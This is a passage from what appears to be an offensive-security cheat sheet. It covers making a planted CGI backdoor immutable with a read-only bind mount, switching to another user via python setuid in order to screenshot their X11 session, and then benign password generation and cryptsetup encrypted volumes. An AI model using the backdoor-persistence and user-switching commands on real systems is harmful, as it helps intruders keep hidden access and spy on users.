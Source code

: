 <a id="perm-files"></a>
**8.v. Make a file immuteable**

This will redirect `/var/www/cgi/blah.cgi` to `/boot/backdoor.cgi`. The file `blah.cgi` can not be modified or removed (unless unmounted).
```sh
# /boot/backdoor.cgi contains our backdoor
touch /var/www/cgi/blah.cgi
mount -o bind,ro /boot/backdoor.cgi /var/www/cgi/blah.cgi
```

<a id="nosudo"></a>
**8.vi. Change user without sudo/su**

Needed for taking screenshots of X11 sessions (aka `xwd -root -display :0 | convert - jpg:screenshot.jpg`)
```bash
# NAME="UserName"  ### <-- Set UserName
U=$(id -u ${NAME:?}) \
&& H="$(grep "$U" /etc/passwd | cut -d: -f6)" \
&& HOME="${H:-/tmp}" python3 -c "import os;os.setuid(${U:?});os.execlp('bash', 'bash')"
# change bash to -bash to make this a login shell.
```

---
<a id="crypto"></a>
## 9. Crypto
<a id="gen-password"></a>
**9.i. Generate quick random Password**

Good for quick passwords without human element.

```sh
openssl rand -base64 24
```

If `openssl` is not available then we can also use `head` to read from `/dev/urandom`.

```sh
head -c 32 < /dev/urandom | xxd -p -c 32
```

or make it alpha-numeric

```sh
head -c 32 < /dev/urandom | base64 | tr -dc '[:alnum:]' | head -c 16
```

<a id="crypto-filesystem"></a>
**9.ii.a. Linux transportable encrypted filesystems - cryptsetup**

Create a 256MB large encrypted file system. You will be prompted for a password.

```sh
dd if=/dev/urandom of=/tmp/crypted bs=1M count=256 iflag=fullblock
cryptsetup luksFormat /tmp/crypted
cryptsetup open /tmp/crypted sec
mkfs -t ext3 /dev/mapper/sec
```
